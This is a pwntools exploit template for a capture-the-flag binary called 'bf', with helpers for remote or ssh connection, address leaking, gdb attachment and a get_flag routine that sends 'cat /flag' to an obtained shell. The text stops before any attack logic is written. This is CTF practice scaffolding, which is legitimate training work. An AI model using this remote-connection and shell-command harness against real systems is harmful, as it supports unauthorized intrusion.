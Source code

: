 
```
from pwn import *
import traceback
import sys
context.log_level='debug'
# context.arch='amd64'
context.arch='i386'

bf=ELF('./bf', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./BUUOJ_libc/libc-2.23-32.so", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./bf")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./bf")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
```